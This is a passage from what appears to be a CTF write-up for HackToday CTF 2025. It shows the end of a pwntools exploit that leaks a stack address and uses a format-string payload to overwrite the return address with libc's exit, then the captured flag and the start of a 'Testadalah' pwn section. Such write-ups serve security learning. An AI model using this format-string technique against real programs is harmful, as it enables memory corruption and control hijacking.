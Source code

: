 ```python

    with log.progress("Overwrite ret to exit"), context.silent:
        ru("0x")
        stack = int(r(12),16)
        ret = stack - 0x18 # Updating the return address
        debug()
        sl(fmtstr_payload(offset, writes={ret:libc.sym["exit"] + 5}, write_size='short'))
    ru(b"\x7f")
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{apalah_soalnya_cuma_bisa_gini_doang}`

# Pwn - Testadalah

## Introduction 

![alt](../../../img/CTFNational/HackToday_CTF_2025/Testadalah.png)
